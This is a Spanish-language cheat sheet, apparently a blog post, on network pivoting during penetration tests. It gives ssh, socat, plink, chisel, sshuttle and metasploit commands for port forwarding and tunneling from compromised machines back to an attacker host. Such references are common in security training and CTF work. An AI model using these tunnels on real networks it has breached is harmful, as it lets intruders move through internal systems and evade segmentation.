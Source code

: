 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

metasploit

```
portfwd add -l 8081 -p 9090 -r 127.0.0.1
```

ssh

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
```

socat

```
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
socat TCP-LISTEN:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

------------

## Remote PortForwarding

ssh

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
ssh -R 4646:127.0.0.1:80 noroot@192.168.0.107 -o UserKnownHostFile=/dev/null -o StrictHostKeyChecking=no
```

plink.exe

```
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

Usando Chisel

```
chisel server -p <port_server> --reverse (como usuario root )
chisel.exe client <ip_attack>:<port_server> R:<port_atack>:ip_local:<port_local> (windows)
chisel.exe client 192.168.0.107:8000 R:4445:127.0.0.01:445
```

-----------

# Tunneling

sshutle

```
sshutle -r noroot@192.168.0.107 10.200.100.200
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```

chisel

```
chisel server -p 8000 --reverse
chisel client 192.168.0.105:8000 R:5000:10.200.100.200:80
```

plink

```
plink.exe -L 7000:ready.htb:5000 noroot@192.168.0.105
plink -L <port_local>metasplotable2:<port_pivot> root@kali
```

Otra forma

```
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

metasploit

```
run  autoroute -s 172.16.50.0/24
```

---------

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.  
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
